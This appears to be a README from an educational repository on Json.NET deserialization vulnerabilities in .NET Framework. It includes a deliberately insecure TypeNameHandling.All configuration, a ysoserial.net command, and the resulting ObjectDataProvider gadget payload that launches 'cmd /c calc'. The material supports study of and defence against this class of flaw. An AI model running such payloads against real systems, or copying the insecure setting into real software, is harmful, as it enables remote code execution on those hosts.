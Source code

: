 # JSON Serialization Vulnerability

The [Friday the 13th](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) exploit uses the `TypeNameHandling` property to manipulate native .NET Framework class to launch a malicious process on the host environment.

The exercises in this section use the [src\02-Framework-JsonVulnerabilties\02-Framework-JsonVulnerabilties.sln](https://github.com/johniwasz/rce-serialization-dotnet/tree/main/src/02-Framework-JsonVulnerabilties). Please load the solution file in Visual Studio.

The `Register` method in [WebConfig.cs](https://github.com/johniwasz/rce-serialization-dotnet/blob/main/src/02-Framework-JsonVulnerabilties/TodoApi/App_Start/WebApiConfig.cs) in 02-Framework-JsonVulnerabilities/Todo/App_Start sets global serialization options.

``` csharp
public static void Register(HttpConfiguration config)
{
    // This introduces a security risk.
    config.Formatters.JsonFormatter.SerializerSettings.TypeNameHandling =
            Newtonsoft.Json.TypeNameHandling.All;

    config.Formatters.JsonFormatter.SerializerSettings.ContractResolver =
        new Newtonsoft.Json.Serialization.CamelCasePropertyNamesContractResolver();
```

Setting `TypeNameHandling` to anything other than `TypeNameHandling.None` exposes the vulnerability through at $type property that defines the type to deserialize. Running the `SerializeFido` test in the JsonVulnerabilities.Test project demonstrates this by serializing:

``` csharp
Dog fido = new Dog
{
    Name = "Fido",
    Breed = "Golden Retriever",
    Owner = "John Doe"
};
```

Which produces:

``` json
{
  "$type": "Todo.Models.Dog, Todo.Models",
  "name": "Fido",
  "breed": "Golden Retriever",
  "owner": "John Doe"
}
```

The `Todo.Models.Dog` class only recognizes string values and cannot be exploited; however, other .NET Framework classes like [`System.Windows.Data.ObjectDataProvider`](https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netframework-4.8.1&WT.mc_id=MVP_337682) and [`System.Web.Security.RolePrincipal`](https://learn.microsoft.com/en-us/dotnet/api/system.web.security.roleprincipal?view=netf&WT.mc_id=MVP_337682ramework-4.8.1) expose a remote code execution vulnerability.

Ysoserial.net includes c

Use ysoserial.exe to create a vulnerable payload using:

``` powershell
ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc"
```

| Parameter | Description |
| --- | --- |
| -f Json.Net | The serializer and format |
| -g ObjectDataProvider | The gadget chain (exploitable class) |
| -o raw |  The output format (raw\|base64\|raw-urlencode\|base64-urlencode\|hex). Default: raw |
| -c "calc" | The command to be executed |

This produces:

``` json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "$values": [ "cmd", "/ccalc" ]
  },
  "ObjectInstance": { "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" }
}
```

The `ObjectDataProvider` uses `System.Diagnostics.Process` to pass the command to the `Start` method.

Use the JsonVulnerabilities.Test project `LaunchObjectDataProviderExploit` test case to observe the exploit in isolation.

